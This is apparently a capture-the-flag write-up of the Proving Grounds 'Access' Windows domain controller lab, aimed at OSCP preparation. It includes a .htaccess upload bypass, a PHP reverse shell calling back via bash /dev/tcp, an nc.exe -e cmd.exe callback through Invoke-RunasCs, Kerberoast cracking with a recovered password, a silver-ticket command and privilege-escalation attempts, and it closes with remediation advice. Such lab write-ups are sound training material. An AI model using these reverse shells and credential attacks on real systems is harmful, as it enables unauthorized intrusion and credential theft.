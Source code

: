 ```yaml
---
layout: writeup
title: Access - Proving Grounds
date: 2024-07-12 13:32:20 +0300
description: A Writeup of the Access Box from Proving Grounds
image: # /assets/images/Access/Access.png
fig-caption: # Add figcaption (optional)
tags: [Windows, TJ Null, LainKusanagi, Active Directory, WerTrigger, Invoke-RunasCs]
---
```


Today I'm doing a writeup for a [Hack The Box](https://app.hackthebox.com/profile/2013658) box from both TJ Null’s OSCP [lab prep list](https://docs.google.com/spreadsheets/u/1/d/1dwSMIAPIam0PuRBkCiDI88pU3yzrqqHkDtBngUHNCw8/htmlview#)and LainKusanagi’s [list of OSCP like machines](https://www.reddit.com/r/oscp/comments/1c8pzyz/lainkusanagi_list_of_oscp_like_machines/). It is called Active, and it is rated Intermediate by Proving Grounds and Very hard by the community. As usual, we get started with an nmap scan. I'm using my own [custom script](https://github.com/pentestpop/verybasicenum/blob/main/vbnmap.sh) for this which (gives more detail but) shows these open ports:

```
PORT     STATE SERVICE
53/tcp   open  domain
80/tcp   open  http
88/tcp   open  kerberos-sec
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
389/tcp  open  ldap
445/tcp  open  microsoft-ds
464/tcp  open  kpasswd5
593/tcp  open  http-rpc-epmap
636/tcp  open  ldapssl
3268/tcp open  globalcatLDAP
3269/tcp open  globalcatLDAPssl
```

It looks like we may be working with a domain controller here so I get started with the usual beginning enumeration: SMB access without auth (denied), adding the target to `/etc/hosts` (access.offsec), running feroxbuster on the web port, checking `enum4linux` (nothing), and checking if there are any unusual ports. We don't see anything especially interesting with TCP or UDP, though we do also have port 5985 so perhaps winrm access in the future. Then it's time to check out the web page:

![Access2.png](/assets/images/Access/Access2.png){: .center-aligned width="600px"}

I check around looking for anything interesting and checking input fields for SQL injection. Looks like nothing here in the `Contact Us` form, but maybe there's an interesting reason why the PHP Email Form Library can't be loaded. 

![Access3.png](/assets/images/Access/Access3.png){: .center-aligned width="600px"}

One field that is almost certainly interesting is when we click the `Buy Now` button for tickets, we get an Upload Image option to go with our name and email. I upload a test `.jpg` and find it in the `/uploads` directory. 

![Access4.png](/assets/images/Access/Access4.png){: .center-aligned width="600px"}

We know that the server uses PHP for a few reasons (Apache server, the names of some of the return files in feroxbuster, the screenshot above), so the goal is probably to upload a PHP file in some way. A simple php file is not allowed, which we can confirm by testing it:

![Access5.png](/assets/images/Access/Access5.png){: .center-aligned width="600px"}

But maybe we can upload something else. I try `.phptml`,`.php5`,`.pHP7`, but none of them work, and I assume we need to try a different approach. Uploading `.php.jpg` works, but it doesn't execute. I checked my notes and decided to try uploading a `.htaccess` file to help me execute a different file extension as php. I created the file with: `echo "AddType application/x-httpd-php .pop" > .htaccess`, and succeeded in uploading the file. Then I was able to upload `ivan445.pop`. Unfortunately when I selected it, I got an error: 
```
DAEMONIZE: pcntl_fork() does not exists, moving on...
SOC_ERROR: 10060: A connection attempt failed because the connected party did not properly respond after a period of time, or established connection failed because connected host has failed to respond
```

I think this is the error from the ivan php reverse shell, so that would mean that it did in fact execute. Maybe I can upload something else to prove it. I create `info.pop` with `<?php phpinfo();?>` and then  upload it. This time it clearly executes, so we're on the right track.

![Access6.png](/assets/images/Access/Access6.png){: .center-aligned width="600px"}

I just did HTB/Updown **Add link** which used a tool called [dfunc_bypasser](https://github.com/teambi0s/dfunc-bypasser/tree/master) to check which dangerous PHP modules should be disabled, meaning for my purposes which can be exploited. I get this list:
```
Please add the following functions in your disable_functions option: 
pcntl_alarm,pcntl_fork,pcntl_waitpid,pcntl_wait,pcntl_wifexited,pcntl_wifstopped,pcntl_wifsignaled,pcntl_wifcontinued,pcntl_wexitstatus,pcntl_wtermsig,pcntl_wstopsig,pcntl_signal,pcntl_signal_get_handler,pcntl_signal_dispatch,pcntl_get_last_error,pcntl_strerror,pcntl_sigprocmask,pcntl_sigwaitinfo,pcntl_sigtimedwait,pcntl_exec,pcntl_getpriority,pcntl_setpriority,pcntl_async_signals,error_log,system,exec,shell_exec,popen,proc_open,passthru,link,symlink,syslog,ld,mail
If PHP-FPM is there stream_socket_sendto,stream_socket_client,fsockopen can also be used to be exploit by poisoning the request to the unix socket
```

One that sticks out to me is `proc_open` because I know there is a [revshells](revshells.com) php shell that uses it. So I decided to make a file out of that which looks like this:

```
<?php
$proc=proc_open("bash -c 'bash -i >&/dev/tcp/10.10.14.3/445 0>&1'",
  array(
    array("pipe","r"),
    array("pipe","w"),
    array("pipe","w")
  ),
  $pipes);
print stream_get_contents($pipes[1]);
?>
```

That failed too. Then I realized I was using my IP address for HTB which starts with `10.10...` whereas Proving Grounds starts with `192.168...`. So I update my [ivan sincek](https://github.com/ivan-sincek/php-reverse-shell) with the correct IP, upload it and it works. Oops. 

![Access7.png](/assets/images/Access/Access7.png){: .center-aligned width="600px"}

I look around for a bit, and I see that there is a `svc_mssql` user in `C:\Users`, even though we don't have a port 1433 showing open. I look around for a bit and run some initial scripts including winpeas.exe. I don't find anything especially interesting, but I do find something when I use `adPEAS.ps1`. This checks for kerberoastable users, which we could do with Rubeus or something else, but it makes it nice and easy. Plus, we find something for the `svc_mssql` user:

![Access8.png](/assets/images/Access/Access8.png){: .center-aligned width="600px"}

I copy this to my machine and try to crack it with hashcat, and it cracks quickly with: `hashcat -m 13100 mssql.kerberoast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force`. We get the credentials `mssql_svc`:`trustno1`. 

I went back with these credentials and tried to see what access I had with wirnm (none) and smb (some, but nothing on the shares). Then I tried to use `Invoke-RunasCS.ps1` from[antonioCoco](https://github.com/antonioCoco/RunasCs/tree/master), but I couldn't get that working. I furthermore couldn't find anything interesting doing manual enumeration. I did try to get a silver ticket with impacket-ticketer by importing `PowerView.ps1` to grab the domain SID and Target SPN of the  `SVC_MSSQL` user. I needed the NTLM hash too, but since I already had the password, it was easy to use [CodeBeautify.org](https://codebeautify.org/ntlm-hash-generator) to generate it. The full command was `impacket-ticketer -nthash F773C5DB7DDEBEFA4B0DAE7EE8C50AEA -domain-sid S-1-5-21-537427935-490066102-1511301751 -domain access.offsec -spn MSSQLSvc/DC.access.offsec -user-id 500 Administrator`. I couldn't get that ticket working though. 

I also checked bloodhound and did a dump of the ldap info with `ldapdomaindump`. I did notice a few kernel exploits, but I'd been hoping to avoid those, as they are often not the intended path for these labs. 

I got stuck here for a while before going back to `Invoke-RunasCs.ps1`. I tried it previously, but the issue was part of my syntax I guess. When trying to use it with the `nc.exe` binary, I did see it working in one directory and failing in another, so that was annoying. Same version and everything, I copied it from the failing directory to the working on. Ultimately the command was `Invoke-RunasCs svc_mssql trustno1 'c:/xampp/htdocs/uploads/nc.exe 192.168.45.204 4444 -e cmd.exe'`. If you run the `nc.exe` binary from `C:\Users\svc_apache\nc.exe`, it fails with an error: 
```
[*] Warning: The logon for user 'svc_mssql' is limited. Use the flag combination --bypass-uac and --logon-type '8' to obtain a more privileged token.
[-] RunasCsException: CreateProcessWithLogonW logon type 2 failed with error code: Access is denied
```

Running it again with the `--bypass-uac` and `--logon-type '8'` does not fix it. It turns out, because you are running it as the passed user (`svc_mssql`), you must run it from a directory that they are allowed to run it from.  Lesson learned. Regardless, once I run it correctly, I get a shell:

![Access9.png](/assets/images/Access/Access9.png){: .center-aligned width="600px"}

Interesting, it looks like we have a new privilege: `SeManageVolumePrivilege`. I think I even have an exploit in my server folder for that. I can simply download the latest release of `SeManageVolumeExploit.exe` from [this](https://github.com/CsEnox/SeManageVolumeExploit/releases/tag/public)github repo from `CsEnox`, and run it on the machine as is: `.\SeManageVolumeExploit.exe`. 

![Access10.png](/assets/images/Access/Access10.png){: .center-aligned width="600px"}

Now - my privileges have not changed. But I can list and read files on any part of the `C:\` including the `root.txt` flag.

![Access11.png](/assets/images/Access/Access11.png){: .center-aligned width="600px"}

I think this is technically enough for the OSCP, at least as far as the scoring goes. Maybe they don't count it if you don't get a privileged user, but for the screenshot you just have to have a screenshot with the ouput of `ipconfig`, `hostname`, and `type root.txt`. But we might as well get the SYSTEM access as well, given that it should be doable if we can write any file. This is more intuitive on Linux - we can just edit `/etc/password` or add a root ssh key or something. But for Windows, it's a bit less simple,but very doable. We can use an exploit called `WerTrigger.exe`, which we can find [here](https://github.com/sailay1996/WerTrigger). The instructions are very simple, and only require you to upload three files to the machine:

1. As an administrator, copy `phoneinfo.dll` to `C:\Windows\System32\`
2. Place `Report.wer` file and `WerTrigger.exe` in a same directory.
3. Then, run `WerTrigger.exe`.
4. Enjoy a shell as NT AUTHORITY\SYSTEM.

Well I tried that, and it didn't work. 

![Access12.png](/assets/images/Access/Access12.png){: .center-aligned width="600px"}

Then I tried [FileWrite2system](https://github.com/sailay1996/FileWrite2system), which didn't work either. Then I tried [UsoDllLoader](https://github.com/itm4n/UsoDllLoaderc), same thing. I tried adding a malicious `.dll` to `C:\Windows\System32\wbem\tzres.dll` and running `systeminfo`, and then adding a malicious `.dll` to `C:\Windows\System32\edgegdi.dll` and triggering it with `Update-MpSignature`. Both of those suggestions I found in a [list](https://github.com/sailay1996/awesome_windows_logical_bugs/blob/master/FileWrite2system.txt) with similar vulnerabilities for logical bugs. 

I checked for other writeups, and I found nothing suggested beyond what I'd already tried. I checked the Offsec Proving Grounds Discord and found only other people with similar difficulties. The only one who'd said they solved it just used the same `SeManageVolumeExploit.exe` that I did that helped them to read the file, but not get a SYSTEM shell. So I'm going ot have to call it. I'm sure there's a way to do the box, but it doesn't appear to be through the intended vulnerability. 

### Lessons Learned
- You have to run `Invoke-RunasCs` from a directory that the user you are trying to run commands as can access. 
- We can upload `.hataccess` so that custom extensions are executed as we say.
- The `SeManageVolume` privilege can help us to read any file.

### Remediation Steps
- Don't allow us to upload the `.htaccess` file allowing us to upload `.pop` file and execute them as `.php`, maybe this could be accomplished with an allow list. 
- Restrict the access to the `/uploads` directory entirely actually. There's no need for users of the site to access it. 
- Prevent us from kerberoasting the `svc_mssql` user, perhaps by removing the SPN if unnecessary or using a managed service account. 
- Furthermore enforce a stronger password - `trustno1` isn't going to cut it. 
- Don't allow the `svc_mssql` user the `SeManageVolume` privilege if unnecessary. 
- Other than that, great stuff apparently.
